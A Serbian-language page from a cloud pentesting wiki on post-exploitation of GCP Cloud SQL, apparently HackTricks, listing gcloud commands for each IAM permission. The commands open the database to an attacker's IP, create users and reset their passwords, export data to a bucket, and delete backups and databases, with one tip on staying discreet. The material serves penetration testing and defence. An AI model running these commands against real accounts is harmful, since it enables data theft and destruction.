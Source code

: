 # GCP - Cloud SQL Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Cloud SQL

Za više informacija o Cloud SQL, proverite:

{{#ref}}
../gcp-services/gcp-cloud-sql-enum.md
{{#endref}}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Da biste se povezali sa bazama podataka, **samo vam je potreban pristup portu baze podataka** i da znate **korisničko ime** i **lozinku**, nema zahteva za IAM. Dakle, lak način da dobijete pristup, pod pretpostavkom da baza podataka ima javnu IP adresu, je da ažurirate dozvoljene mreže i **dozvolite svojoj IP adresi da joj pristupi**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Takođe je moguće koristiti **`--no-backup`** da **ometate rezervne kopije** baze podataka.

S obzirom na to da su ovo zahtevi, nisam potpuno siguran koje su dozvole **`cloudsql.instances.connect`** i **`cloudsql.instances.login`**. Ako znate, pošaljite PR!

### `cloudsql.users.list`

Dobijte **spisak svih korisnika** baze podataka:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Ova dozvola omogućava **kreiranje novog korisnika unutar** baze podataka:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Ova dozvola omogućava **ažuriranje korisnika unutar** baze podataka. Na primer, mogli biste promeniti njegovu lozinku:
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Backup-i mogu sadržati **stare osetljive informacije**, pa je zanimljivo proveriti ih.\
**Vratite backup** unutar baze podataka:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Da bi se to uradilo na diskretniji način, preporučuje se da se kreira nova SQL instanca i da se podaci povuku tamo umesto u trenutno aktivnim bazama podataka.

### `cloudsql.backupRuns.delete`

Ova dozvola omogućava brisanje rezervnih kopija:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Izvezite bazu podataka** u Cloud Storage Bucket kako biste mogli da joj pristupite odatle:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Uvezi bazu podataka** (prepiši) iz Cloud Storage Bucket-a:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Obriši bazu podataka iz db instance:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{{#include ../../../banners/hacktricks-training.md}}

